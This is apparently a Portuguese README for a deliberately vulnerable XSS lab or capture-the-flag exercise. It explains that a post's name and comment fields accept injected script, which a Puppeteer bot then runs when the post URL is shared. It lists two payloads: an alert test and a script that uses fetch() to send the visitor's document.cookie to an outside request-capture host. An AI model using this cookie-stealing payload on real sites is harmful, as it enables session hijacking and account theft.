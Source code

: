 # Payloads (Atualizar):

Tanto o campo nome quanto comentário podem ser utilizados para enviar o XSS na página do post.
Após o envio basta compartilhar a URL no formulário do menu lateral para que o bot (puppeteer)
acesse e execute o payload.

Obs: é feita a verificação se o link pertence ou não ao site, mas como o site é vulneravel a XSS
se alguem quiser que ele acesse outra url é bastante simples via javascript. É necessário configurar corretamente as variáveis do arquivo `.env` para garantir que tudo ocorra nos conformes.

```html
<script>alert('xss');</script>
<script>fetch('https://ent6k7fximtwm.x.pipedream.net/c=' + document.cookie);</script>
```